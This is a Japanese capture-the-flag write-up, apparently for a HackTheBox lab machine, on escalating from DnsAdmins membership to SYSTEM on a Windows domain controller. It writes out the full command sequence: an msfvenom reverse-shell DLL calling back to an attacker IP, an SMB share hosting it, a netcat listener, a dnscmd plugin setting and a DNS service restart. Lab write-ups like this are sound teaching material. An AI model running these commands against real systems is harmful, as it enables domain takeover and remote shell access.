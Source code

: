 c.f.) 
- [Read Teaming Experiments](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
- https://youtu.be/8KJebvmd1Fk
- [日本語resolu手のwriteup](https://qiita.com/MarshMallow_sh/items/52e04ee4166c7b2b345c#dnsadmins%E6%A8%A9%E9%99%90%E3%82%92%E7%94%A8%E3%81%84%E3%81%9F%E6%A8%A9%E9%99%90%E6%98%87%E6%A0%BC)
- https://phackt.com/dnsadmins-group-exploitation-write-permissions

**WindowsのDNSにはカスタムプラグインとしてDLLを読み込む機能がある。<br>（dns.exeがSYSTEM権限で動いているという前提で）そのカスタムプラグインとしてrevshellを
起動するようなDLLを読み込ませればよい！**


#### ryanはDnsAdminsグループに属す：

```
*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level
```

#### dnsが動いてることを確認：

```
*Evil-WinRM* PS C:\Users\ryan> Get-Process -Name dns

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   5307    3699    69092      68004              3404   0 dns
```

#### dnsサービスの確認：

```
*Evil-WinRM* PS C:\Users\ryan> sc.exe query dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

#### マリシャスdll（ペイロード）の作成：

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f dll --platform windows -o rev.dll

or

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 -f dll rev.dll
```

#### rev.dllがあるディレクトリでsmbサーバを立てる：

（DLLをアップロードすると検疫されてしまうのでその対策）

```
sudo impacket-smbserver kali ./
or
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . -smb2support
```

#### 早めにkali側でlistenerを立てておく：

```
$ nc -nvlp 4444
```

#### ryanのリバースシェル上でマリシャスdllをdnsで設定：
> - According to Microsoft protocol specification, the **ServerLevelPluginDl** operation enables us to load a dll of our choosing.
> - dnscmd.exe already implements this option: `dnscmd.exe /config /serverlevelplugindll \\path\to\dll`
> - When executing this dnscmd.exe command as a user (a member of DnsAdmins), this registry key is populated: `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll`

*（注意）このマシンは1分ごとに各サービスが再起動するように設定されていることがnote.txtよりわかっている。*

[ryanのリバースシェル上]

（Resolute.megabank.localはDomainControllerの名前）

```
*Evil-WinRM* PS C:\Users\ryan> dnscmd.exe resolute.megabank.local /config /serverlevelplugindll \\10.10.14.3\kali\rev.dll

or

*Evil-WinRM* PS C:\Users\ryan> dnscmd.exe 127.0.0.1 /config /serverlevelplugindll \\10.10.14.3\kali\rev.dll
```
レジストリの値`ServerLevelPluginDll`がきちんと我々のマリシャスdllを指し示してることを確認：

```
*Evil-WinRM* PS C:\Users\ryan\Documents> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll


ServerLevelPluginDll : \\10.10.14.3\kali\rev.dll
PSPath               : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters\
PSParentPath         : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS
PSChildName          : Parameters
PSDrive              : HKLM
PSProvider           : Microsoft.PowerShell.Core\Registry
```

注）kali側のsmbサーバの反応が少し遅いので、そこは動いてないと勘違いしないように！

#### DNSを再起動：

```
*Evil-WinRM* PS C:\Users\ryan> sc.exe stop dns

*Evil-WinRM* PS C:\Users\ryan> sc.exe start dns
```
もしくは

```
*Evil-WinRM* PS C:\Users\ryan> sc.exe \\Resolute.megabank.local stop dns

*Evil-WinRM* PS C:\Users\ryan> sc.exe \\Resolute.megabank.local start dns
```
